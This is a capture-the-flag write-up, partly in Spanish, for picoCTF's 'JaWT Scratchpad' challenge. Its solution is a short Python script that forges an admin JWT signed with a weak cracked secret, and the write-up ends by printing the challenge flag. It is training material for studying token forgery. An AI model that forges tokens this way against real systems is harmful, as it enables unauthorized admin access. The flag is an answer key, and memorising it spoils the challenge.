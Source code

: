 ### JaWT Scratchpad
### Description 

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090
### Hint

- Have you heard of JWT?
- What is that cookie?

## Solución  1
```
del token que sacamos de las coockies de la pagina metemos este codigo para que meta nuestro firma que será ilovepico y nos dara nuestro token completo



import jwt
payload = {"user": "admin"}
# Secreto para firmar el token
secret = "ilovepico"
token = jwt.encode(payload, secret, algorithm="HS256")
print("Token JWT firmado:", token)

Here is your JaWT scratchpad!
picoCTF{jawt_was_just_what_you_thought_f859ab2f}


```